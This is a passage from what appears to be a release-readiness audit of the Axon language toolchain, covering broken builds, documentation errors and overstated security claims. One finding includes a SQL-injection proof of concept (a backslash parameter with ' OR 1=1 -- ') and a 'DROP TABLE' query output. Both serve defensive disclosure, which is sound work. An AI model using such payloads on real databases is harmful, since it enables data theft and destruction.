**Recommendation:** Render the verify predicate with the existing source pretty-printer (the formatter already knows how to print expressions) instead of `{:?}`, and don't truncate mid-token - truncate at a token boundary with an ellipsis. Deduplicate W1310 per function per run (emit once with a count), so the key-free demo's output is its result rather than 30 lines of identical noise.

### Docs + learnability — 10 findings (1C/3H/3M/3L)
> **Verdict:** not-ready
>
> The docs' *safety* story is genuinely solid — the README headline @[contained] example, `./flagship --ci` (4/4 CVE exemplars), all 42 top-level examples, `axon fmt` (74 files, 0 breakage, 0 non-idempotency), and both README Quick-Start `axon goal` commands all work as written. But three documented headline paths are broken today: (1) `axon build` — the entire native AOT story — fails with ~100 undefined-reference linker errors for any user whose cwd is not the Axon source checkout; (2) `make_counter`, the README's own closure example for the advertised "heap-captured mutable closures" feature, silently returns 1,1,1 under `axon run` and 1,2,3 natively — a soundness-grade interp/native divergence that the repo's own fixture catches but no test asserts; (3) the CLAUDE.md-documented `axon deploy examples/goals/hello-goal.ax` is always BLOCKED by an arity mismatch the toolchain generates itself. Beneath those, spec/stdlib.md is a stale Phase-1/2 design memo that documents 69 of 294 builtins, files shipped features under "Planned Phase 4", and contains two snippets that do not compile — while 64% of the real builtin surface, including all of arr_*/dict_*/str_split/casts/bit-ops, is documented nowhere. A public release would put new users straight into these three walls.

#### [CRITICAL] `axon build` fails with ~100 undefined-reference linker errors unless cwd is the Axon repo root
*crates/axon-core/src/codegen/link.rs:663-712 (build_crate_staticlib), :332 (call site)* · kind: `documented-command-broken` · confidence: high

README Quick Start and CLAUDE.md both document `axon build foo.ax` as the native AOT path ("builds in ~3s"). It only works when the process cwd is the Axon workspace root.

Verified, same file, same binary, three cwds:
```
### from repo root:
Compiling examples/hello.ax...
Binary: .../hA (1025ms)

### from $HOME:
collect2: error: ld returned 1 exit status
error: linker (/usr/bin/cc) exited with exit status: 1

### from $HOME with CARGO_MANIFEST_DIR=/home/cklaus/projects/axon/crates/axon-core/src:
Binary: .../hC (7015ms)
```
The failure mode is ~100 lines of raw ld output with no diagnosis — the *whole* runtime is missing, not one symbol:
```
/usr/bin/ld: arithN.o: in function `str_reverse':
arith:(.text+0xf): undefined reference to `__axon_str_reverse'
... (98 more) ...
/usr/bin/ld: arithN.o: in function `to_str':
arith:(.text+0x2f4): undefined reference to `__axon_i64_to_str_radix'
```
Root cause: `build_crate_staticlib` reads `CARGO_MANIFEST_DIR` **at runtime** (it is a compile-time-only cargo variable, so always absent), and falls back to the *relative* paths `"Cargo.toml"` and `"target"`:
```rust
let manifest = std::env::var("CARGO_MANIFEST_DIR")
    .map(|d| format!("{d}/../../../Cargo.toml"))
    .unwrap_or_else(|_| "Cargo.toml".into());
```
The `cargo build -p axon-rt --manifest-path Cargo.toml` subprocess then fails, and the failure is swallowed twice — stdout/stderr are piped to `Stdio::null()`, and `if !status.success() { return None }` — after which `link()` at :332 just links without `libaxon_rt.a`. The symbols exist in the archive (`nm target/debug/libaxon_rt.a` shows `T __axon_arith_panic`, `T __axon_set_provenance_source`, 101 `T __axon*` total); it is simply never passed to `cc`.

Second-order release blocker in the same code: even when it works, the shipped compiler shells out to `cargo build -p axon-rt` at link time, so a released `axon` binary requires a Rust toolchain **and** the full Axon source tree at runtime.

**Recommendation:** Resolve the workspace root from the running executable (`std::env::current_exe()` → walk up to the dir containing `Cargo.toml`) or bake it in with `env!("CARGO_MANIFEST_DIR")` at compile time instead of `std::env::var`. Separately, stop discarding the subprocess output: if `build_crate_staticlib` returns `None`, abort with a real diagnostic ("could not build/locate libaxon_rt.a — <cargo stderr>") rather than linking a runtime-less object. Longer term, ship a prebuilt `libaxon_rt.a` alongside the binary so `axon build` does not need cargo or the source tree.

#### [HIGH] README's own `make_counter` closure example is silently wrong in the interpreter and disagrees with native codegen
*README.md:65,150-159 · crates/axon-core/tests/fixtures/closures.ax:15-40 · crates/axon-core/tests/fixtures/phase15_higher_order.ax:51-66* · kind: `documented-but-broken` · confidence: high

README lists `- **Closures** — first-class, heap-captured mutable closures` as a shipped Feature and prints `make_counter` as the demonstration. It does not work under `axon run`, the documented default execution path — and native codegen gives a *different* answer.

Same source, both engines:
```axon
fn main() -> i64 {
    let n = 0
    let inc = () => { n = n + 1; n }
    println("call1={to_str(inc())}")
    println("call2={to_str(inc())}")
    println("call3={to_str(inc())}")
    println("outer n={to_str(n)}")
    0
}
```
```
$ axon run clo.ax          $ axon build clo.ax -o cloN && ./cloN
call1=1                    call1=1
call2=1                    call2=2
call3=1                    call3=3
outer n=0                  outer n=0
```
No error, no warning — just a wrong answer that differs by backend. The repo's own fixtures already encode the native semantics and fail under the interpreter:
```
$ axon run crates/axon-core/tests/fixtures/closures.ax
axon: panic: assertion failed: 0 != 1      # from assert_eq(c(), 1) after assert_eq(c(), 0) passed
rc=101
```
```
$ axon run phase15_higher_order.ax   (instrumented to print each sub-test)
s1=1 s2=1 s3=1 s4=1 s5=1 s6=0 s7=1 s8=1     # s6 == test_counter, the mutable-capture test
```
Neither is caught: `integration_fixtures.rs:163` only asserts `closures.ax` *type-checks* cleanly (`closures_fixture_type_checks_cleanly`) and `:614` only that `phase15_higher_order.ax` *parses* cleanly — a vacuous pass over a fixture whose stated purpose (`// Mutable closure: captured variable is mutated across calls. // This is the spec §3 make_counter pattern.`) is precisely the broken behavior. `grep -rn closure scripts/*.sh` shows no parity harness covers closures, and `examples/closures_demo.ax` only uses read-only captures, so the differential fuzzer never sees it.

**Recommendation:** Either implement by-reference/heap capture in `interp.rs` to match codegen, or — if value-capture is the intended interpreter semantics — make the checker reject assignment to a captured binding inside a lambda rather than silently dropping the write. Then convert the two fixtures from parse/check-only assertions into executed assertions, and add a closure row to the native↔interp parity suite. Until it is fixed, remove "mutable closures" from the README Feature list and replace the `make_counter` snippet — it is currently the first thing a reader will copy.

#### [HIGH] The documented Phase-10 flow always fails at `axon deploy`: intent-compile emits a 1-arg gate that deploy calls with 0 args
*examples/goals/hello-goal.ax:78 · crates/axon-os/../axon-core/src/main.rs (deploy gate runner, run_named_fn_as_bool)* · kind: `documented-but-broken` · confidence: high

CLAUDE.md documents the Hello-Goal flow verbatim as `axon intent compile → ast review → ast approve → deploy`, and states Acid Test 2 is "demonstrable end-to-end". The final step is broken on the checked-in example:
```
$ axon deploy examples/goals/hello-goal.ax
axon: panic in assert_deployable: assert_deployable: expected 1 args, got 0
deploy: examples/goals/hello-goal.ax — BLOCKED at gate 'assert_deployable' (exit 101)
  stages run: assert_deployable
REAL rc=1
```
Not environment-specific — it reproduces on freshly generated skeletons too, from two different prose goals:
```
$ axon intent compile examples/goals/hello-goal.md --out hg.ax   # ok
$ axon ast review hg.ax                                          # "no type errors"
$ axon ast approve hg.ax                                         # ok, hash e95f01802c9a
$ axon redteam hg.ax                                             # pass
$ AXON_AI_MOCK=1 axon deploy hg.ax                               # BLOCKED, rc=1

$ axon intent compile examples/goals/agent-goal.md --out ag.ax
$ AXON_AI_MOCK=1 axon deploy ag.ax
  stages run: redteam_check → assert_deployable   → BLOCKED, rc=1
```
The generator emits `fn assert_deployable(score: i64) -> i64 { score }` (hello-goal.ax:78) while the deploy gate runner invokes named gate functions with zero arguments. Two shipped tools that are documented as a pipeline disagree on the gate ABI. `examples/goals/brief-gate.ax` deploys fine (rc=0) because it has no `assert_deployable`, which is why the break was not noticed.

**Recommendation:** Pick one gate ABI and enforce it in both places: either have `intent compile` emit `fn assert_deployable() -> i64` reading the best score from state, or teach the deploy gate runner to pass the current best score to arity-1 gates. Add a CLI integration test that runs the full compile→review→approve→deploy chain on `examples/goals/hello-goal.md` and asserts rc=0 — the acid test is currently asserted only in prose.

#### [HIGH] spec/stdlib.md — the designated stdlib reference — is a Phase-1/2 design memo with two snippets that don't compile
*spec/stdlib.md* · kind: `stale-docs` · confidence: high

CLAUDE.md points at `spec/stdlib.md` as the "Standard library reference". It documents 69 builtins (of 294 in `BUILTINS`), gives prose entries for only 17, and is structured as an in-flight Phase-2 design doc rather than a reference. Its section headings today:
```
## 5. Known Issues and Phase 2 Fixes
### `eprint` / `eprintln` wrote to stdout (bug, being fixed in Phase 2)
## 6. Planned Phase 4 Additions          ← "not present in Phase 1, 2, or 3"
### Floating-point extended math          ← sqrt/pow/floor/ceil (shipped)
### I/O builtins                          ← read_line/read_file/write_file (shipped)
### Time builtins                         ← sleep_ms/now_ms (shipped)
## 7. Planned Phase 3 Additions
```
Two code blocks a reader would copy do not compile:

**L196** (under `to_str`, "the standard way to turn a number into text for output or concatenation"):
```axon
println("result: " + to_str(count))
```
```
E0102: arithmetic operand has non-numeric type str (expected numeric type (i64, f64, i32, …)), found str
```
`str + str` is not supported (L181 admits a `Concat` trait is "future"), yet the example is presented as working code.

**L374** (the entire `### Integer-to-float coercion` section asserts an implicit `sitofp` at call sites):
```axon
let a = abs_f64(5)   // 5.0
```
```
E0102: type mismatch in arg 0 of `abs_f64` (expected f64), found i64
E0306: argument 0 of `abs_f64` has the wrong type (expected f64), found i64
```
The documented coercion does not exist. (`abs_i32(-5)` in the adjacent widening section *does* work.)

**L609** `let AREA = comptime { pow2(8) }` → `E0001: cannot find name 'pow2'`; no such builtin.

**Recommendation:** Rewrite spec/stdlib.md as a reference generated from the `BUILTINS` table (name/params/ret/doc are already all there — a small generator would keep it from ever drifting again) and move the Phase-2 bug archaeology and "Planned Phase 3/4" sections into CHANGELOG.md or delete them. At minimum, before release: delete the `"..." + to_str(x)` example, delete the `### Integer-to-float coercion` section, and drop `pow2`.

#### [MEDIUM] 188 of 294 builtins (64%) appear in no doc — including the entire collections, dict, cast, and bit-op APIs
*crates/axon-core/src/builtins.rs (BUILTINS) vs README.md / spec/language-tour.md / spec/stdlib.md / spec/runtime.md / CLAUDE.md* · kind: `undocumented-surface` · confidence: high

Diffing every `name:` in the `BUILTINS` slice against the combined text of README.md, spec/language-tour.md, spec/stdlib.md, spec/runtime.md and CLAUDE.md: **294 builtins, 188 mentioned nowhere.** README's Builtins section lists 67; language-tour §14 lists 9.

The gap is not exotic kernel intrinsics — it is the everyday library:
- collections (40+): `arr_map arr_filter arr_fold arr_sort_by arr_zip arr_zip_with arr_any arr_all arr_find arr_count_if arr_chunk arr_unique arr_flatten arr_concat arr_take arr_drop arr_partition arr_enumerate arr_group_by arr_argmax_i64 arr_mean_f64 arr_std_f64 …`
- dictionaries (20, entirely absent): `dict_new dict_get dict_set dict_has dict_remove dict_keys dict_values dict_merge dict_filter dict_inc dict_to_pairs …`
- strings: `str_split str_join str_count str_reverse str_digits_only`
- numeric casts: `as_i64 as_f64 as_u8 as_u16 as_u32 as_u64 as_i8 as_i16 as_i32`
- bit ops: `bit_and bit_or bit_xor bit_not shl shr`
- plus `json_parse json_stringify json_path_str`, `http_get http_post http_sse`, `decimal_*`, `parse_int_or/parse_float_or/parse_bool_or`, and the whole kernel/principal/scheduler/store surface.

These are real and working — verified in one program:
```axon
let a = [3,1,2]; println(to_str(arr_sum_i64(&a)))          // 6
let parts = str_split("a,b,c", ","); println(str_join(&parts, "|"))  // a|b|c
let d = dict_new(); dict_set(d, "k", 5)
match dict_get(d, "k") { Some(v) => println(to_str(v)) None => println("none") }  // 5
println(to_str_f64(round_f64(2.7)))                        // 3
println(to_str(clamp_i64(15, 0, 10)))                      // 10
println(to_str(bit_xor(12, 10)))                           // 6
println(to_str_f64(as_f64(7)))                             // 7
```
A developer reading the docs end-to-end would reasonably conclude Axon has no map, no filter, no dictionaries, no string splitting, and no integer/float casts — and would hand-roll `while` loops (as every doc example does). This is the single largest learnability drag in the project: the language is far more capable than it looks.

**Recommendation:** Generate the builtin reference from the `BUILTINS` table (name/params/ret/doc already populated) and publish it as spec/stdlib.md; add a CI check that fails when a `BUILTINS` entry has no doc entry, the same way `builtin_externs::drift_tests` guards arity drift. Then add a "Collections" section to the language tour — `arr_map`/`arr_filter`/`arr_fold`/`dict_*` deserve a page far more than `abs_i32`.

#### [MEDIUM] The module system (`mod`/`use`/AXON_PATH) is documented in no user-facing doc, and 5 shipped examples fail `axon check` out of the box
*README.md · spec/language-tour.md · spec/stdlib.md · examples/asi/*.ax · examples/modular/agent.ax* · kind: `undocumented-surface` · confidence: high

README claims Phase 4 "multi-file" complete, but `grep -n 'AXON_PATH|^use |mod ' README.md spec/language-tour.md spec/stdlib.md` returns **zero hits**. The language tour walks "every Axon feature, in order from basic to advanced" and never mentions imports. AXON_PATH is mentioned only in CLAUDE.md's env-var table.

Consequence: sweeping all 170 `.ax` files under `examples/` with `axon check`, 18 fail — 13 are intentional negative fixtures (E1001 @[contained] violations, `examples/bpf/bad_*`), but 5 are genuinely broken for a new reader:
```
examples/asi/bandit_ucb.ax          E0901 + E0001 ×5
examples/asi/persistent_bandit.ax   E0901 + E0308 + E0001
examples/asi/safe_bandit.ax         E0901 ×2 + E0001 ×4
examples/asi/safe_self_improve.ax   E0901 + E0308 + E0001
examples/modular/agent.ax           E0901 + E0001 ×2
```
```
E0901: module `bandit` not found
  searched:
    /root/.axon/lib/bandit.ax (not found)
    .../target/debug/../lib/axon/bandit.ax (not found)
  hint: AXON_PATH is unset — set it to the directory containing `bandit.ax`
```
The diagnostic is good, but note what is *not* searched: the importing file's own directory. `examples/modular/agent.ax` imports `scorelib`, and `examples/modular/scorelib.ax` sits right next to it, yet resolution fails. With `AXON_PATH=examples/modular` it runs perfectly (`agent: combined score = 86 / clears floor 70 -> ACT`). These are the `examples/asi/` demos CLAUDE.md calls "the public face" of the project.

**Recommendation:** Add a "Modules" section to spec/language-tour.md covering `mod`/`use`/AXON_PATH, and add the resolver's search order to the README env-var docs. Independently, make module resolution try the importing file's own directory first — that single change makes all 5 examples work with no environment setup, which is what a reader will expect from `axon run examples/asi/bandit_ucb.ax`.

#### [MEDIUM] README's test-count and project-structure claims are wrong, and one test fails on a clean checkout
*README.md:262-277, :290* · kind: `stale-docs` · confidence: high

README:290 — `**Test suite**: 246 tests (189 unit + 57 integration), all passing.`

Actual, `cargo test -p axon-core --no-default-features`:
```
running 570 tests → ok. 569 passed; 1 ignored
running 8 tests   → ok. 8 passed
running 419 tests → FAILED. 418 passed; 1 failed        (997 total)
error: test failed, to rerun pass `-p axon-core --test cli_run`
```
The failure:
```
---- wasm_interp_matches_native_on_pure_compute ----
wasm/native parity must hold on the pure-compute corpus:
  DIFF anthropic_stream.ax native=(code 1) wasm=(code 1)
    native stdout: stream error: http_sse_post requires the asi-runtime feature or a network-capable host
    wasm   stdout: error: ANTHROPIC_API_KEY environment variable not set
```
A reader who runs the README's own verification step gets a red suite. (The two backends produce different messages for the same missing-capability condition — the test is right to flag it; the corpus should exclude a network example, or the two paths should emit the same text.)

Also stale in the same neighbourhood:
- README:272 `integration_fixtures.rs   # 69 integration tests` — the file has ~255 `#[test]` fns over 133 fixtures.
- README:266 lists `codegen.rs        # LLVM IR emission via inkwell` — `crates/axon-core/src/codegen.rs` does not exist; it is a `codegen/` directory (ROADMAP.md references its submodules by the correct path).

**Recommendation:** Either drop the hard numbers from the README (they will always drift) or generate them. Fix or exclude `anthropic_stream.ax` from the wasm-parity corpus so `cargo test -p axon-core` is green on a fresh clone with no API key — that command is the first thing a new contributor runs. Update the Project Structure block to `codegen/`.

#### [LOW] language-tour §16 teaches AI annotations that the checker now rejects: bare `@[verify]` is "unknown", `@[goal]` on a fn with params is a hard error
*spec/language-tour.md:396-416 · README.md (Features) · CLAUDE.md (Language Quick Reference)* · kind: `documented-but-broken` · confidence: high

The tour's "AI Annotations" section — the on-ramp to Axon's differentiating feature — shows three annotations, two of which no longer type-check as written:
```
$ axon check  # @[verify] over fn critical_calculation(x: f64) -> f64
warning: [W0001] unknown attribute `@[verify]`
```
```
$ axon check  # @[goal("maximize throughput")] @[adaptive] over fn schedule_tasks(n: i64)
warning: [W2001] `@[goal("maximize throughput")]` goal is vague — add a file reference …
error  [E1504] `schedule_tasks` is a `#[goal]` function — must have zero params (params are reserved for future use)
```
Bare `@[verify]` (no predicate) is reported as an *unknown attribute*, and README's Feature list plus CLAUDE.md's Quick Reference both advertise the same bare form. The tour section header still says "not yet enforced by the Phase 2 compiler" — it is now enforced, and enforced against exactly the shape the tour prints.

**Recommendation:** Update §16 to the enforced forms — `@[verify(value >= 0)]`, `@[goal("…")]` on a zero-param fn — and drop the "Phase 2 / deferred" framing. Also reconsider W0001 for bare `@[verify]`: "unknown attribute" is misleading when the attribute is known but requires an argument; a targeted "`@[verify]` requires a predicate, e.g. `@[verify(value >= 0)]`" would save the reader a hunt.

#### [LOW] `axon ast review` — the human sign-off screen — prints raw truncated Rust Debug AST
*crates/axon-core/src/main.rs (ast review)* · kind: `ux` · confidence: high

`axon ast review` is documented as the step where a human inspects generated code before `ast approve` records sign-off. What it shows for an attribute predicate:
```
$ axon ast review hg.ax
  fn try_variant(variant_id: i64) -> i64  @[adaptive]
  fn assert_deployable(score: i64) -> i64
    @[verify]: BinOp { op: GtEq, left: Ident("score"), right: Literal(Int(2
  fn main() -> i64
  no type errors
```
Raw `{:?}` output, cut off mid-literal — the reviewer cannot even see the bound being asserted (`2`? `20`? `280`?). The rest of the review output is clean and well-formatted, which makes this line stand out.

**Recommendation:** Render attribute predicates with the existing `fmt.rs` expression printer instead of `{:?}` — the formatter already round-trips every expression form (verified idempotent and semantics-preserving across 74 example files). Remove the truncation, or truncate on a token boundary with an ellipsis.

#### [LOW] README Quick Start contradicts itself on codegen features, and tour §14 documents the wrong float format
*README.md:84-106 · spec/language-tour.md:352* · kind: `stale-docs` · confidence: high

README:84-87 says the native codegen build "is on by default"; nineteen lines later README:104-105 says `axon build` (native binary) and `axon parse --json` "need extra features: --features codegen and --features serde-json respectively". Both cannot be true, and a reader following the second will pass a redundant flag while the actual constraint they need to know (CLAUDE.md's "Do not enable `codegen` + `serde-json` together") appears in neither the README nor the tour.

Separately, language-tour:352 documents `to_str_f64(3.14)     // "3.140000"`; actual output is `3.14`:
```
$ axon run ts.ax   # fn main() { println(to_str_f64(3.14)) }
3.14
```
spec/stdlib.md has this right (`%.6g`), so the tour is the outlier.

(For the record, the rest of tour §14 checks out — `abs_i32(-5)`→5, `min_i32(3,7)`→3, `max_i32(3,7)`→7, `abs_f64(-3.14)`→3.14, `len("hello")`→5 — as do §4 `{{`/`}}` literal braces and §9's exhaustiveness claim, which correctly raises `E0304: non-exhaustive match on enum 'Color' — missing variant 'Blue'`.)

**Recommendation:** Collapse README:84-106 into one accurate statement of the default feature set plus the codegen×serde-json incompatibility. Fix the `3.140000` comment to `3.14`. Also consider making the README Concurrency example end `0` rather than `sum` — as printed, it exits with code 45, which reads as a failure to anyone who copies it.

### Positioning — killer demo vs. the claims — 6 findings (0C/2H/4M/0L)
> **Verdict:** not-ready
>
> The demo itself is genuinely strong and I could not break the central claim. `./flagship --ci` ran end-to-end from this checkout and exited 0, building axon/axon-os/axon-vm itself with no LLVM, and running all four segments including a REAL Docker+seccomp foil (Docker was present, so it took the serious path, not the Python fallback). The headline `@[contained]` guarantee holds on BOTH execution paths: `axon check` and `axon build` (codegen, default features) each refuse agent_task_evil.ax with the same 3× E1001. I also ran the exact test EVALUATE.md invites a skeptic to run — stripping the `@[contained]` line from agent_task_evil.ax makes it `axon check`-clean at exit 0, proving the capability check, not a parse error, is the only thing stopping it. examples/asi/run.sh demos also completed at exit 0. That core is release-quality and the honesty framing (THREAT_MODEL.md, the CONTAINED/OUT-OF-SCOPE columns) is real.
> 
> What blocks release is narrower and entirely in the CLAIMS layer, which is the worst place for it on a product whose whole brand is "we draw our own edges honestly." The single most quotable number — "~28 of 40 CVE-Bench CVEs prevented" in README.md line 37 and WRITEUP.md — does not survive a skeptic's audit. 9 of those 28 (32% of the headline) come from reclassifying the SQL-injection bucket from MEDIUM to PREVENTED on the strength of `sql_query`/E1210, and that mechanism has three problems I confirmed by execution: its escaping is unsound on MySQL (the exemplar CVE's own database), it is E0910-refused by native codegen so it cannot appear in a compiled binary at all, and it has no database sink whatsoever, so unsafe SQL remains freely representable. Worse, the very document the pitch links as "the 40-CVE triage" still says "≈ half of 40" and still buckets SQLi as MEDIUM — the supporting evidence contradicts the headline. Add a by-class table that sums to 42–43 instead of 40, and a README test-count claim ("246 tests, all passing") that is both stale by 4x and false (one test fails).
> 
> The fix list is small — mostly documentation reconciliation plus one escaping fix and one test fix — but until the headline number and its supporting docs agree, the CVE-Bench claim is a liability rather than an asset. Everything else I checked, I could verify.

#### [HIGH] sql_query's parameter escaping is unsound on MySQL/MariaDB — a backslash param breaks out of the quoted string
*/home/cklaus/projects/axon/crates/axon-core/src/interp/builtins.rs* · kind: `unsound-security-primitive` · confidence: high

`sql_query` is documented (crates/axon-core/src/builtins.rs:279) as making SQL injection "unrepresentable by construction" because "each `?` placeholder is filled... by the next value in `params` (a bound parameter, escaped)." The escaping (crates/axon-core/src/interp/builtins.rs, the "sql_query" arm) wraps each param in single quotes and does only `.replace('\'', "''")` — SQL-standard quote doubling, with no handling of backslash.

MySQL and MariaDB, with default settings (NO_BACKSLASH_ESCAPES off), treat `\'` inside a single-quoted string as an escaped quote. A param whose value ends in a backslash therefore escapes the closing quote sql_query itself appends, and everything after it becomes SQL structure. I ran this:

    fn main() -> i64 {
        println(sql_query("SELECT * FROM t WHERE a = ? AND b = ?", ["\\", " OR 1=1 -- "]))
        0
    }

    $ axon run sqltest.ax
    axon: run-id 19fb864b4bf-53aa050e
    SELECT * FROM t WHERE a = '\' AND b = ' OR 1=1 -- '
    EXIT=0

MySQL parses `'\' AND b = '` as a single string literal with value `' AND b = ` (the `\'` is an escaped quote, and the string closes at the quote before ` OR`). The remainder ` OR 1=1 -- ` is then SQL structure, yielding `WHERE a = <string> OR 1=1` — a full table dump. This is textbook injection through the path the docs call the safe one.

This is not hypothetical for the exemplar chosen: examples/flagship/cve/CVE-2024-5314/ is Dolibarr ERP/CRM, a MySQL/MariaDB application. PostgreSQL with standard_conforming_strings=on would be safe; the database the demo names is not. Because `sql_query` returns a `str` that the caller must send somewhere, sending it to MySQL is its only intended use.

**Recommendation:** Either (a) escape backslash as well and document the exact SQL dialect(s) the escaping is valid for, or (b) stop rendering values into the string at all — return a template + bound-parameter pair and let a driver do the binding, which is the only construction that actually earns the "injection is unrepresentable" claim. Until one of those lands, soften the builtin doc and COVERAGE.md from "unrepresentable by construction" to a scoped statement, and add a regression test with the backslash payload.

#### [HIGH] 9 of the headline "28 of 40" CVEs rest on sql_query, which has no database sink, is codegen-refused, and is trivially sidestepped
*/home/cklaus/projects/axon/examples/flagship/WRITEUP.md* · kind: `overstated-headline-claim` · confidence: high

README.md:37 and WRITEUP.md:3/54/58 headline "~28 of 40". COVERAGE.md:37 shows the arithmetic explicitly: "capability confinement for ~19, plus the 9 SQL-injection CVEs now a compile error." So 9 of 28 — nearly a third of the number — is carried entirely by `sql_query`/E1210. Three independent problems, all confirmed by execution:

1. THERE IS NO DATABASE SINK. `sql_query` returns `str`. Grepping every builtin name for any DB-related sink returns exactly one hit — `sql_query` itself (crates/axon-core/src/builtins.rs:276). Axon cannot connect to a database. "Axon prevents 9 SQL-injection CVEs" reduces to "Axon has no DB driver," which is not a type-system guarantee.

2. THE MECHANISM DOES NOT EXIST IN NATIVE BINARIES. The pitch's first line is "compiles to native code via LLVM 17." `sql_query` has zero mentions anywhere in crates/axon-core/src/codegen/. I built with default features (codegen) and ran the demo's own safe exemplar:

    $ ./target/debug/axon build examples/flagship/cve/CVE-2024-5314/list_records.ax -o /tmp/lr
    Compiling examples/flagship/cve/CVE-2024-5314/list_records.ax...
    codegen error [E0910]: builtin `sql_query` is not yet supported by the native codegen backend (it runs under the interpreter — use `axon run`). Building it would silently compute a wrong value.
    error: 1 codegen error(s); build aborted
    BUILD_EXIT=1

The refusal is honest and sound-by-refusal, but it means 32% of the headline security claim is unavailable in any compiled artifact. (By contrast the `@[contained]` E1001 checks DO hold on the build path — I verified agent_task_evil.ax is refused with the same 3× E1001 under `axon build`. That part of the pitch is solid.)

3. E1210 GUARDS ONE BUILTIN, NOT A PROPERTY. `collect_sql_injection` (crates/axon-core/src/checker.rs) only counts calls whose callee is the literal Ident `sql_query`. Unsafe SQL is fully representable if you simply never call it:

    @[contained(fs: [], net: ["api.openai.com"], exec: none)]
    fn list_sorted(sortorder: str) -> str {
        let q = "SELECT * FROM records ORDER BY {sortorder}"
        q
    }

    $ axon check sqlevade2.ax   -> CHECK_EXIT=0   (no diagnostics at all)
    $ axon run   sqlevade2.ax
    SELECT * FROM records ORDER BY name; DROP TABLE records

Also worth noting: case (1) of the demo's own exploit file, `sql_query("SELECT ... ORDER BY " + sortorder, [])`, additionally emits E0102 because `+` is not string concatenation in Axon — the "classic concatenation injection" it dramatizes is not expressible in the language anyway. Only the interpolation case is a genuine E1210 test.

**Recommendation:** Drop the SQLi bucket back to its original MEDIUM classification and lead with the defensible "~19 of 40 PREVENTED by capability confinement" — which is the claim the demo actually proves and which is still a strong number. If you want to keep 28, first ship a real bound-parameter DB sink, make it the only route to a database, and support it in codegen. At minimum, disclose in WRITEUP.md's "What it does not do" section that the SQLi mechanism is interpreter-only.

#### [MEDIUM] TRIAGE.md — the doc the pitch links as its evidence — contradicts the headline number
*/home/cklaus/projects/axon/examples/flagship/cve/TRIAGE.md* · kind: `internal-contradiction` · confidence: high

WRITEUP.md:116 links TRIAGE.md as "The 40-CVE triage," and it is the first artifact a skeptic opens to check "~28 of 40." It says the opposite. TRIAGE.md:20-28 still carries the original tally:

    | **STRONG** | **19** | ...refused by `@[contained]` or eliminated by memory safety. |
    | **MEDIUM** | **14** | SQL injection + missing-authz + ... |
    | **WEAK**   |  **7** | ... |

    **≈ half of 40 critical CVEs are a bug class Axon refuses by construction**

"≈ half" is 50%; the README and WRITEUP say ~28/40 = 70%. TRIAGE also lists all 9 SQLi CVEs under MEDIUM with the angle "`Tainted<T>`→`Trusted` query sink" — i.e. as FUTURE work, not a shipped compile error — while COVERAGE.md reclassifies exactly those 9 to PREVENTED. Only COVERAGE.md's appendix (TRIAGE.md:105-107) mentions the reclassification, buried in the reproductions list; the tally table and the bolded summary sentence were never updated.

The internal numbers themselves are consistent (19 + 9 = 28), so this is a stale-doc problem rather than a fabricated number — but a reader checking the receipts finds the receipts disagreeing with the pitch.

**Recommendation:** Reconcile TRIAGE.md's tally table and its bolded summary line with the 28/40 framing, or (preferably, per the previous finding) revert the headline to 19 and leave TRIAGE as the accurate source of truth. Make one document the canonical tally and have the others cite it rather than restate it.

#### [MEDIUM] COVERAGE.md's by-class table sums to 42-43 CVEs, not 40 — the 862 cases are double-counted
*/home/cklaus/projects/axon/examples/flagship/cve/COVERAGE.md* · kind: `arithmetic-error` · confidence: high

COVERAGE.md:18-33 presents a per-class table that claims to cover "the whole 40, honestly." Summing its Count column:

    PREVENTED rows: 4 + 6 + 2 + 2 + 3 + 1 + 1 + 9 = 28   (matches the headline)
    CONTAINED rows: 2 (862 missing-authz) + 2 (798/74) + 1 (863) = 5
    OUT-OF-SCOPE:   6-7 (269/862 privesc) + 2 (XSS) + 1 (crypto)
    TOTAL:          42 (taking 6) to 43 (taking 7)

Cross-referencing TRIAGE.md shows the error. TRIAGE's WEAK bucket lists exactly 4 CWE-269 privilege-escalation CVEs (CVE-2023-37999, CVE-2023-51483, CVE-2024-30542, CVE-2024-32511), and its MEDIUM bucket lists exactly 2 CWE-862 missing-authz CVEs (CVE-2024-2771, CVE-2024-4223). COVERAGE.md counts the 862 pair once as its own CONTAINED row AND again inside the "Privilege-escalation logic (269/862) | 6-7" row. That row should read 4, which makes the table total 28 + 5 + 7 = 40 exactly — and incidentally matches COVERAGE.md's own prose summary of "~7 honestly OUT OF SCOPE."

So the underlying triage is right and the fix is a single cell, but as published the table does not add up to the population it claims to enumerate. On a page whose stated purpose is "the honesty is the point," that is the first thing an auditor checks.

**Recommendation:** Change the "Privilege-escalation logic (269/862)" count from "6-7" to 4, and add a total row (28 + 5 + 7 = 40) so the arithmetic is self-checking and any future edit that breaks it is obvious.

#### [MEDIUM] README claims "246 tests, all passing"; the suite is 997 tests and one FAILS
*/home/cklaus/projects/axon/README.md* · kind: `stale-claim-and-red-test` · confidence: high

README.md:290 states: "**Test suite**: 246 tests (189 unit + 57 integration), all passing." I ran the exact command the README's Quick Start establishes (and the same one CI runs):

    $ cargo test -p axon-core --no-default-features
    running 570 tests
    test result: ok. 569 passed; 0 failed; 1 ignored; ...
    running 8 tests
    test result: ok. 8 passed; 0 failed; ...
    running 0 tests
    test result: ok. 0 passed; 0 failed; ...
    running 419 tests
    test result: FAILED. 418 passed; 1 failed; 0 ignored; 0 measured; 0 filtered out; finished in 339.60s

That is 997 tests, not 246 — the count is stale by 4x — and more importantly the suite is RED, not "all passing." The failure is `wasm_interp_matches_native_on_pure_compute` (crates/axon-core/tests/cli_run.rs:13660):

    wasm/native parity must hold on the pure-compute corpus:
    wasm_parity: 35 pure-compute examples auto-discovered
      DIFF anthropic_stream.ax native=(code 1) wasm=(code 1)
        native stdout: stream error: http_sse_post requires the asi-runtime feature or a network-capable host
    wasm_parity: 34 passed, 1 differ

The cause looks benign — the harness auto-discovers "pure-compute" examples and swept up anthropic_stream.ax, which is not pure compute; both sides exit 1 but their stdout differs. It is a harness-corpus bug, not a compiler soundness bug. But a stranger evaluating the project runs `cargo test`, sees red, and discounts everything else on the page.

I confirmed this is not an artifact of the current governance-audit branch: `git diff --stat main...HEAD -- crates/axon-core` does not include cli_run.rs, and `git show main:crates/axon-core/tests/cli_run.rs` contains the test. The failure is on main.

**Recommendation:** Fix or exclude anthropic_stream.ax from the pure-compute corpus (it needs asi-runtime), then update README.md:290 to the real count — or better, drop the hardcoded number and point at CI, since a literal count in a README is guaranteed to go stale.

#### [MEDIUM] The failing wasm parity test is structurally invisible to CI — it skips in exactly CI's configuration
